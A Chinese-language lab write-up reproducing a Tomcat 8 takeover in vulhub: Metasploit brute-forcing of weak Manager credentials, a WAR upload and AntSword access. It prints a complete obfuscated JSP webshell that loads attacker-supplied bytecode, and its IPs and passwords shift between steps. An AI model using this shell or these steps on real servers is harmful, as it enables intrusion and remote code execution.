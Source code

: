 ```yaml
---
title: 【Tomacat漏洞复现】后台弱口令+文件上传
date: 2025-09-04
categories:
  - Web攻防
  - 靶场
  - 红队
image: images/35.webp
---
```

# 影响范围
Tomcat8
# 环境搭建
这边就还是用vulhub进行复现
```
cd vulhub-master/tomcat/tomcat8
sudo docker-compose up -d
docker ps

http://192.168.197.140:8080/
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904141819.png)
# 漏洞复现
这里使用MSF进行复现：
```
msfconsole
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904141926.png)
**查找与 tomcat 相关的模块**
```
search tomcat
```
**使用 auxiliary/scanner/http/tomcat_mgr_login 模块**
```
use auxiliary/scanner/http/tomcat_mgr_login 
```
**查看需要填写哪些参数**
```
show options
```
**将 rhosts 设置为目标机**
```
set rhosts 172.16.2.174
```
**进行爆破**
```
run
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904142741.png)
这里成功爆破出账号/密码：
```
[+] 192.168.197.140:8080 - Login Successful: tomcat:tomcat
```
**点击 Manager App 进行登录**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904155742.png)
**登录后找到上传点**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904155816.png)
将带有一句话的111.jsp文件压缩成zip，并且将压缩后的zip文件改名为111.war
 jsp 一句话木马，密码为123
```
<%  String H9991 = request.getParameter("123");if (H9991 != null) { class EdnMF480 extends/*Z#гдh*u@!h0S4OG4fI8*/ClassLoader { EdnMF480(ClassLoader L0YKXC) { super(L0YKXC); } public Class H9991(byte[] b) { return super.defineClass(b, 0, b.length);}}byte[] bytes = null;try {int[] aa = new int[]{99, 101, 126, 62, 125, 121, 99, 115, 62, 82, 81, 67, 85, 38, 36, 84, 117, 115, 127, 116, 117, 98}; String ccstr = "";for (int i = 0; i < aa.length; i++) {aa[i] = aa[i] ^ 16; ccstr = ccstr + (char) aa[i];}Class A001M = Class.forName(ccstr);String k = new String(new byte[]{100,101,99,111,100,101,66,117,102,102,101,114});bytes = (byte[]) A001M.getMethod(k, String.class).invoke(A001M.newInstance(), H9991);}catch (Exception e) {bytes = javax.xml.bind.DatatypeConverter.parseBase64Binary(H9991);}Class aClass = new EdnMF480(Thread.currentThread().getContextClassLoader()).H9991(bytes);Object o = aClass.newInstance();o.equals(pageContext);} else {} %>
```
**上传111.war文件**
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904160012.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904160033.png)
访问 172.16.2.174:8080/11/11.jsp，无任何回显。（这里我的码错了，方法都是一样的，我又重新上传了一下）
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904161029.png)

**上蚁剑**
```
http://192.168.197.140:8080/11/11.jsp
密码：pass
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250904161012.png)
